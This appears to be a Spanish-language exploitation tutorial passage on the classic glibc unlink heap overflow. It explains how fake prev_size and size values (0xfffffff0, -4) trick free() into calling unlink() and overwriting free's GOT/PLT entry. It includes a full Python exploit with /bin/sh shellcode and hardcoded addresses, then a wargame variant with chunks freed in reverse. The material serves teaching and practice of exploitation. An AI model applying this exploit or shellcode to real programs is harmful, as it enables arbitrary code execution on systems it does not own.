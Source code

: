 Después de la shell code metemos relleno hasta llegar al campo prev\_size y size del siguiente trozo. En estos sitios metemos 0xfffffff0 (de forma que se sobrescrita el prev\_size para que tenga el bit que dice que está libre) y “-4“(0xfffffffc) en el size (para que cuando compruebe en el 3º trozo si el 2º estaba libre en realidad vaya al prev\_size modificado que le dirá que s´está libre) -> Así cuando free() investigue irá al size del 3º pero en realidad irá al 2º - 4 y pensará que el 2º trozo está libre. Y entonces llamará a **unlink()**.

Al llamar a unlink() usará como P->fd los primeros datos del 2º trozo por lo que ahí se meterá la dirección que se quieres sobreescribir - 12(pues en FD->bk le sumará 12 a la dirección guardada en FD) . Y en esa dirección introducirá la segunda dirección que encuentre en el 2º trozo, que nos interesará que sea la dirección a la shellcode(P->bk falso).

**from struct import \***

**import os**

**shellcode = "\xeb\x0caaaabbbbcccc" #jm 12 + 12bytes de relleno**

**shellcode += "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" \\**

**"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" \\**

**"\x80\xe8\xdc\xff\xff\xff/bin/sh";**

**prev\_size = pack("\<I”, 0xfffffff0) #Interesa que el bit que indica que el anterior trozo está libre esté a 1**

**fake\_size = pack("\<I”, 0xfffffffc) #-4, para que piense que el “size” del 3º trozo está 4bytes detrás (apunta a prev\_size) pues es ahí donde mira si el 2º trozo está libre**

**addr\_sc = pack("\<I", 0x0804a008 + 8) #En el payload al principio le vamos a poner 8bytes de relleno**

**got\_free = pack("\<I", 0x08048300 - 12) #Dirección de free() en la plt-12 (será la dirección que se sobrescrita para que se lanza la shellcode la 2º vez que se llame a free)**

**payload = "aaaabbbb" + shellcode + "b"\*(512-len(shellcode)-8) # Como se dijo el payload comienza con 8 bytes de relleno porque sí**

**payload += prev\_size + fake\_size + got\_free + addr\_sc #Se modifica el 2º trozo, el got\_free apunta a donde vamos a guardar la direccion addr\_sc + 12**

**os.system("./8.3.o " + payload)**

**unset() liberando en sentido inverso (wargame)**

Estamos controlando 3 chunks consecutivos y se liberan en orden inverso al reservado.

En ese caso:

En el chunck c se pone el shellcode

El chunck a lo usamos para sobreescribir el b de forma que el el size tenga el bit PREV\_INUSE desactivado de forma que piense que el chunck a está libre.

Además, se sobreescribe en la cabecera b el size para que valga -4.

Entonces, el programa se pensará que “a” está libre y en un bin, por lo que llamará a unlink() para desenlazarlo. Sin embargo, como la cabecera PREV\_SIZE vale -4. Se pensará que el trozo de “a” realmente empieza en b+4. Es decir, hará un unlink() a un trozo que comienza en b+4, por lo que en b+12 estará el puntero “fd” y en b+16 estará el puntero “bk”.
